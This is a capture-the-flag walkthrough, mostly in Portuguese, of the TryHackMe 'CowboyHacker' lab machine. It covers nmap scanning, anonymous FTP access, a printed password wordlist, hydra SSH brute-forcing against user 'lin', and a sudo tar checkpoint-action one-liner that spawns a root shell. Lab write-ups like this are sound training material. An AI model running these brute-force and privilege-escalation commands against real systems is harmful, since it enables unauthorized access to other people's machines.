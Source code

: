 # WRITE-UP COWBOYHACKER

![homepage](files/ctf-homepage.png)

[Clique aqui para acessar a sala](https://tryhackme.com/room/cowboyhacker#)
---

## QUESTÃO 01: Find open ports on the machine

**TRADUZINDO: Ache as portas abertas na máquina**

> Bom, basta fazer um simples escanemento. Você pode usar qualquer ferramenta de port-scan que preferir. Eu usarei o Nmap.

> Eu gosto de salvar o relatório do nmap em um arquivo próprio, mas se você não gostar rode apenas `nmap -A [alvo]`
`

**PASSO 01:** Execute no terminal `nmap -A [alvo] > arquivo.txt`

No meu caso:
  `nmap -A 10.10.81.241 > scan.txt`

Resultado:

  ![scan](files/nmap-scan.png)

  * Ótimo, três portas estão abertas.
    * 21 `ftp`
    * 22 `ssh`
    * 80 `http`

  * O servidor FTP tem o _Anonymous login_ habilitado, interessante! Não precisamos quebrar ou descobrir nenhum usuário e senha oculta.

  * E temos um website rodando na porta 80 com Apache 2.4.18

  <br>

  ![website](files/website.png)
.
  Sempre verifique o código fonte do site, pode conter alguma informação sensível comentada.

  ![source](files/source-webpage.png)

  Mas nesse caso, não achei relevante. Apenas possíveis usuarios pra login no ssh.

----

  ## QUESTÃO 02: Who wrote the task list

  **TRADUZINDO: Quem escreveu a lista de tarefas**

  > Bom, lendo o pequeno trecho do website, eu notei que existe um personagem com nome de Ein. Mas não funcionou :(

  Mas lembre-se, o Nmap nos mostrou que o servidor FTP tem o login no modo anonymous habilitado. Então, vamos ver o que achamos lá.

  **PASSO 01:** Para logar como anonymous no servidor FTP use este comando: `ftp [alvo]` e digite `anonymous` como nome de usuário.

  No meu caso:

  ![fpt-login](files/ftp-login.png)

  **PASSO 02:** Nós achamos dois arquivos apenas rodando `ls`. Agora digite `get [arquivo]` para fazer o download para sua máquina local.

  Conteúdo de `task.txt`:

  ~~~
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.

  -lin
  ~~~

> Oh, talvez foi lin quem escreveu a lista de tarefas.

Conteúdo de `locks.txt`:

~~~
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
~~~

> Estranho. Parece um arquivo com possíveis senhas
-----

## QUESTÃO 03: What service can you bruteforce with the text file found?

**TRADUZINDO: Que serviço podemos fazer um bruteforce com o arquivo achado?**

## QUESTÃO 04: What is the users password?

**TRADUZINDO: Qual é a senha do usuário?**

Agora temos um usuário, uma lista de senhas e um serviço ssh que ainda não foi explorado. Sendo assim, a próxima etapa é tentar quebrar o ssh usando as credenciais encontradas. Para isso, irei utilizar o `hydra` mas você pode usar outra ferramenta que preferir

**PASSO 01:** Bruteforce ssh com hydra usando esse comando: `hydra -l lin -P locks.txt ssh://alvo`

 No meu caso:

 `hydra -l lin -P locks.txt ssh://10.10.81.241`

![hydraresult](files/ssh-bruteforce-hydra.png)

> We found!

**With the information obtained so far, you are already able to answer question 03 and question 04.**

-----

## QUESTION 05: user.txt

Let's login ssh with the credentials.
<br>
![loginssh](files/login-ssh.png)

> Boom! We are on the server

![user](files/usertxt.png)

Running `ls -la` we found the flag user.txt
> Pretty easy flag

**With the information obtained so far, you are already able to answer question 05.**

----

## QUESTION 06: root.txt

Now we have to escalate privilege and get the last flag root.txt.

After a long time looking through the files and searching for possible users, I thought I would use the linpeas script to automate my process (You can download it [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)), it is a very powerful script.

But I had forgotten to see what our current user can do. So i run `sudo -l`

![tar](files/allowed-tar.png)

We can use **tar**

A fast search on Google and i found on [GTFFobins site](https://gtfobins.github.io/gtfobins/tar/) this code:

![privilege-tar](files/tar-for-root.png)

~~~
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

Now we are root. Just take the flag in `/root/root.txt`

![root](files/rootxt.png)
